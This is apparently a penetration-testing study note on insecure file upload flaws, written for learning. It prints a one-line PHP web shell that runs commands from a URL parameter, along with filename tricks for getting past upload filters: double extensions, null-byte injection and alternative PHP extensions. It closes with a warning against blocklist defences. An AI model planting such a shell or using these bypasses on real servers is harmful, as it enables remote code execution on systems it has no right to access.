 >[!question] What is Insecure File Upload ?__?
Insecure File Upload vulnerability is when an application allows uncontrolled and unvalidated upload of files. An attacker can exploit this vulnerability to upload malicious files, like web shells, which can lead to code execution, data leakage, or other types of attacks.

We can use dev tools or Burp Suite as per the methodology we follow.

We  can see if there's any check's happening on the Client Side or Server Side.

Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

>[!important] Exploitations: 

Bypass extension filters
Note: req server misconfigure to execute or the ability to rename once it's up
shell.php.jpg

Works in OLD Servers Null byte injection
shell.php%00.jpg
%00 is called the null byte and this terminates so when the web server calls it
interprets this differently.

Magic Bytes (i.e. Magic Bytes are the first few bytes of a file which tell the system what type of file it is)

Blocklist bypass
shell.php5
shell.phtml

>[!warning] So don't ever use block list to prevent file uploads.

